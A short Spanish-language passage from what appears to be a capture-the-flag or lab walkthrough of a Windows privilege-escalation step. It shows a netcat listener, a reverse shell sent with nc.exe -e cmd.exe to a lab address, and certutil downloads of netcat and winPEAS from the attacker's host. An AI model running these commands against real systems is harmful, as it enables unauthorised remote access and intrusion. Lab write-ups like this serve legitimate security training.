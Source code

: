 con certutil.exe descargamos el nc con la ayuda de nuestro webshell:

![alt text](image-10.png)

nos ponemos en modo escucha:

```bash
> rlwrap -cAr nc -lvnp 4444
```

Enviamos el revshell:

```bash
C:\Users\Public\Downloads\nc.exe 10.10.14.166 4444 -e C:\Windows\System32\cmd.exe
```

Ahora tenemos un shell

![alt text](image-11.png)

transferimos winpeas a nuestra máquina víctima:

```powershell
certutil.exe -urlcache -split -f http://10.10.14.166:8000/winPEASx64.exe C:\Users\Public\Downloads\win.exe
```
Lo ejecutamos:

```
C:\Users\Public\Downloads\win.exe
```
